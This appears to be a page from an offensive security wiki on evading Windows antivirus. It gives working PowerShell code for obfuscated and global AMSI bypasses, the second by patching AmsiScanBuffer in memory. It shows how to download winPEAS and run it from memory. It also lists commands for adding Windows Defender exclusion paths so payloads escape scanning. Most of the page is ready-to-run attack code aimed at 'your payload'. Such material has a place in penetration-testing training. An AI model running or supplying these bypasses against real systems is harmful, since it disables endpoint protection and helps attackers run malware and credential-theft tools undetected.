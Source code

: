 ```yaml
---
description: >-
  Getting your payload and tools through antivirus protections by obfuscating
  them or disabling protections
---
```


# Antivirus Evasion

## AMSI Bypass

Windows's Antimalware Scan Interface (AMSI) tries to protect systems against suspicious scripts, but like most things, can easily be bypassed. When you run PowerShell code from the command-line, or from a `.ps1` script, AMSI will look at the code and if it finds any malicious-looking code, it will throw a `ScriptContainedMaliciousContent` error and not execute it. When you want to execute your exploit script, this can get in the way.&#x20;

A straightforward way to **test** if AMSI is enabled is to include a string that is always blocked, such as "`Invoke-Mimikatz`".&#x20;

There are many different bypasses that will disable AMSI, without being detected itself. These evolve over time as AMSI blocks more ways, but attackers are quick to find new bypasses by obfuscating certain parts in different ways.&#x20;

There are 2 types of bypasses, as explained clearly in the post below:

{% embed url="https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/" %}
Powershell-only VS global AMSI bypasses explained
{% endembed %}

1. **PowerShell-only**: This only prevents the `ScriptContainedMaliciousContent` check from blocking your exploit, but not anything more. When loading .NET assemblies it might still fail
2. **Global**: Disable all AMSI protections, including .NET assemblies

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}
List of many different known AMSI bypasses that are updated
{% endembed %}

{% embed url="https://amsi.fail/" %}
Automatic PowerShell AMSI bypass generator, creates a new bypass every time
{% endembed %}

Some **PowerShell-only** bypasses like the following will disable AMSI for all future PowerShell commands in that same process:

{% code title="Obfuscated PowerShell-only" %}
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```
{% endcode %}

Afterward, you can successfully run scripts that AMSI would normally block, like `Invoke-Mimikatz`. But with such a bypass not every protection is gone yet. When you load a .NET assembly for example you might receive the following cryptic error:

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption><p>Screenshot from @S3cur3Th1sSh1t when trying to execute something that requires loading a .NET assembly</p></figcaption></figure>

To get past this, we'll need a **global** bypass that disables it completely. If you have done the PowerShell-only bypass already, you don't even need to obfuscate it anymore:

{% code title="Unobfuscated global bypass" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
{% endcode %}

After running this, every AMSI protection should be disabled and you are able to run .NET assemblies again. For example, [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) can be run like this:

```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# Download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); 
[winPEAS.Program]::Main("")
```

## Defender: Exclusions

When dealing with Windows Defender, an Administrator account can manage the settings of Defender. Simply trying to disable it via the command line will seem suspicious and likely get you blocked. Instead, you can take a look at the **exclusions** that Defender won't check.

{% hint style="info" %}
Managing Exclusions requires an elevated shell. Check [#uac-bypass](local-privilege-escalation.md#uac-bypass "mention") for more info.
{% endhint %}

{% code title="List Exclusions" %}
```powershell
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath
```
{% endcode %}

If you can write your payload in any of the above directories, you will fully bypass Defender. If there is no such directory, you can add one to the list with the following command. You just have to successfully execute it once to fully bypass Windows Defender in the future.

{% code title="Add Exclusion" %}
```powershell
Add-MpPreference -ExclusionPath 'C:\Windows\Tasks'
```
{% endcode %}

{% code title="Remove Exclusion" %}
```powershell
Remove-MpPreference -ExclusionPath C:\Windows\Tasks
```
{% endcode %}

